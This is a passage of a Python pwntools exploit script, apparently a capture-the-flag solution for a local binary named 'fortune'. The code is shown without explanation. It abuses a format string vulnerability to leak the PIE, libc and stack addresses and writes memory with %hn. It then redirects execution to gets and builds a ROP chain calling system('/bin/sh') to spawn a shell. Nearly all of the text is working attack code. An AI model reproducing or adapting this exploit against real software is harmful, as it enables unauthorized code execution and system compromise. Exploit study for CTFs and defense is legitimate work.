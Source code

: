```python
    payload += f"%{(stack - 0xf8 + off) & 0xFFFF}c%{0xd}$hn".encode()
    setPayload(payload)
    FSB(-0x80 // 8)

    payload = b''
    if value != 0:
        payload += f"%{value}c%{0x2b}".encode()
    if lever:
        payload += b'$n'
    else:
        payload += b'$hn'

    setPayload(payload)
    FSB(-0x80 // 8)

def makeAddress(address, offset):
    low = (address >> 0) & 0xFFFF
    mid = (address >> 16) & 0xFFFF
    high = address >> 32
    makeAddress_(low, 0 + offset)
    makeAddress_(mid, 2 + offset)
    makeAddress_(high, 4 + offset, True)

context(arch='amd64', os='linux')
if args.REMOTE:
    p = remote('localhost', 5000)
    libc = ELF('./libc.so.6', False)
else:
    p = process('./fortune', aslr=1)
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)

FSB(-0x98 // 8)
pie = u64(p.recv(6).ljust(8, b'\x00')) - 0x4008
puts_got = pie + 0x3fa0
addr = pie + 0x4028
log.success(f"PIE base @ {hex(pie)}")

setMsg(p64(puts_got))
FSB(-0x80 // 8)
libc.address = u64(p.recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
log.success(f"libc base @ {hex(libc.address)}")

setMsg(p64(libc.symbols['environ']))
FSB(-0x80 // 8)
stack = u64(p.recv(6).ljust(8, b'\x00')) 
log.success(f"stack base @ {hex(stack)}")

makeAddress(stack - 0x220, 0)
makeAddress(stack - 0x220 + 2, 8)
low = libc.symbols['gets'] & 0xFFFF
high = (libc.symbols['gets'] >> 16) & 0xFFFF
if high > low:
    high -= low
else:
    high = 0x10000 - (high - low)
payload = f"%{low}c%{0xe}$hn".encode()
payload += f"%{high}c%{0xf}$hn".encode()
setPayload(payload)
FSB(-0x80 // 8)

rop = ROP([libc])
rop.call('system', [next(libc.search(b'/bin/sh'))])
pause()
```